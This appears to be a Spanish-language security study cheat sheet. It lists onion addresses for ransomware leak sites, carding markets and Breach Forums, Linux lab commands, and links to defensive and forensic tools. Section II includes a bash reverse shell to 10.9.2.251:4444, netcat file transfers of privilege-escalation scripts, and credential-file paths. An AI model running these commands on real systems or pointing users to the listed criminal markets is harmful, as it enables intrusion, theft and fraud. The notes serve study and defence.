 # ***I. Dark Web***

## 1.1.Wiki

   - The Hidden Wiki
      ```bash
      http[:]//zqktlwiuavvvqqt4ybvgvi7tyo4hjl5xgfuvpdf6otjiycgwqbym2qad[.]onion/wiki/Main_Page
      ```
   - OnionLinks
      ```bash
      http[:]//jaz45aabn5vkemy4jkg4mi4syheisqn2wn2n4fsuitpccdackjwxplad[.]onion/
      ```

## 1.2.Ransomware Group

   - Ransomware Group Sites
      ```bash
      http[:]//ransomwr3tsydeii4q43vazm7wofla5ujdajquitomtd47cxjtfgwyyd[.]onion/
      ```
   - RansomHub
      ```bash
      http[:]//ransomxifxwc5eteopdobynonjctkxxvap77yqifu2emfbecgbqdw6qd[.]onion//#ShootingHouse
      ```
   - INC Ransom
      ```bash
      incblog7vmuq7rktic73r4ha4j757m3ptym37tyvifzp2roedyyzzxid[.]onion/blog/leaks
      ```
   - Rhysida
      ```bash
      rhysidafohrhyy2aszi7bm32tnjat5xri65fopcxkdfxhi4tidsg7cad[.]onion  / http[:]//rhysidafc6lm7qa2mkiukbezh7zuth3i4wof4mh2audkymscjm6yegad[.]onion/
      ```
   - Lockbit 3 (blog)
      ```bash
      http[:]//lockbit3753ekiocyo5epmpy6klmejchjtzddoekjlnt6mu3qh4de2id[.]onion/
      ```
   - Everest
      ```bash
      http[:]//ransomocmou6mnbquqz44ewosbkjk3o5qjsl3orawojexfook2j7esad[.]onion/
      ```
   - RansomEXX
      ```bash
      http[:]//rnsm777cdsjrsdlbs4v5qoeppu3px6sb2igmh53jzrx7ipcrbjz5b2ad[.]onion/
      ``` 

## 1.3.Otros
   
   - Black Market CC
      ```bash
      http[:]//imjxsmcdedgtljeqip5vmqjepruvlip2xstuos5phwsrp3ka3znzn2ad[.]onion/
      ```
   - CARDS
      ```bash
      http[:]//nalr2uqsave7y2r235am5jsfiklfjh5h4jc5nztu3rzvmhklwt5j6kid[.]onion/list.html
      ```
   Black Hat Chat
      ```bash
      http[:]//blkhatjxlrvc5aevqzz5t6kxldayog6jlx5h7glnu44euzongl4fh5ad[.]onion/
      ```
   Facebook
      ```bash
      http[:]//4wbwa6vcpvcr3vvf4qkhppgy56urmjcj2vagu2iqgp3z656xcmfdbiqd[.]onion/
      ```
   Massive List Onion Service
      ```bash
      http[:]//darknetlidvrsli6iso7my54rjayjursyw637aypb6qambkoepmyq2yd[.]onion/onions
      ```
## 1.4.Breach Forums
   - ```bash
      https://breachforums.st/member.php
      ```
   - ```bash
      breached26tezcofqla4adzyn22notfqwcac7gpbrleg4usehljwkgqd[.]onion
      ```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ***II. Linux: Comandos mas usados***

## 2.1. Para trasnferir archivos usando nc

   - Ejecutar en el host donde va a pasar los archivos
      ```bash
      nc -l -p 1234 > LinEnum.sh 
      ```
   - Ejecutar host donde estan los archvios
      ```bash
      cat /home/user/tools/privesc-scripts/LinEnum.sh | nc 10.9.2.251 1234
      ```      
## 2.2. Para trasnferir archivos usando python3 y wget o curl

   - Ejetuar en donde estan los archivos
      ```bash
      python3 -m http.server 8080 
      ```
   - Ejecutar en donde descargar los archivos
      ```bash
      wget http://10.9.2.251:8080/lse.sh -O /home/sn0w/lse.sh
      curl -o /home/sn0w/lse.sh http://10.9.2.251:8080/lse.sh 
      ```
## 2.3. FIND

   - Para buscar archivos
      ```bash
      find -name passwords.txt
      find -name *.txt 
      ```
## 2.4. NETCAT

   - Poner en escucha con netcat
      ```bash
      nc -nlvp 4444 
      ```
## 2.5. REVERSE SHELL TCP

   - Crear una reverse shell TCP
      ```bash
      /bin/bash -c 'bash -i >& /dev/tcp/10.9.2.251/4444 0>&1'
      ```

## 2.6. ENUMERACION
- hostname
- uname -a
- ps (ps, ps -A, ps axjf, ps aux
- env
- sudo -l
- ls
- id
- history
- ifconfig e ip route
- netstat (netstat -a, -at, -au, -l, -lt, -s, -tp, -i, 
- find 
- searchsploit

  ## 2.6. FICHEROS
- /proc/version
- /etc/issue
- /ect/passwd

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# ***III. Tools***

## 3.1. Herramientas Phishing:
Email Header Analyzer - https://mxtoolbox.com/EmailHeaders.aspx
Message Header Analyzer - https://mha.azurewebsites.net/
iplocation.io - https://iplocation.io/
iplocation.net - https://iplocation.net/
IP Geolocation - https://ipinfo.io/products/ip-geolocation-api
CyberChef - https://gchq.github.io/CyberChef/
- From Base64
- From HTML Entity (desofuscar codigo HTML)
- CSS Beautify
- Defang IP Addresses
- Defang URL
Base64Guru: https://base64.guru/
CSS Beautify - https://www.cleancss.com/css-beautify/
JavaScriot Beautifier - https://beautifier.io/
ANY.RUN: https://any.run/
ANY.RUN THEATH INTELLIGENCE Lookup: https://intelligence.any.run/?utm_source=csn&utm_medium=article&utm_campaign=phishing_attacks&utm_content=ti_lookup&utm_term=051224
have i been pwned? - https://haveibeenpwned.com/
PhishTool - https://app.phishtool.com/sign-up/community
VirtusTotal - https://www.virustotal.com/gui/home/upload
Email Reputation - https://emailrep.io/
InQuest Indicator Lookup - https://labs.inquest.net/ (clic en INDICATOR OOKUP)

## 3.2. Malware:
MalwareBazaar - https://bazaar.abuse.ch/browse/

## 3.3. Auditoria de contraseñas:
Specops Password Auditor - https://specopssoft.com/product/specops-password-auditor/
Enzoic Active Directory Lite - https://www.enzoic.com/active-directory-lite/

## 3.4. Forense:
Volatility 3 - https://github.com/volatilityfoundation/volatility3
Autopsy - https://www.autopsy.com/download/
FTK Imager - https://www.exterro.com/digital-forensics-software/ftk-imager

## 3.5. Auditoria a SGBD:
Imperva - Scuba Database Vulnerability Scanner https://www.imperva.com/resources/free-cyber-security-testing-tools/scuba-database-vulnerability-scanner/
Calssifier Impeerva: https://www.imperva.com/resources/free-cyber-security-testing-tools/imperva-classifier-data-classification-tool/

## 3.6. Vulnerabilidades y Exploits:
CVE details - https://www.cvedetails.com/
ExploitDB - https://www.exploit-db.com/
GTFOBins - https://gtfobins.github.io/



   



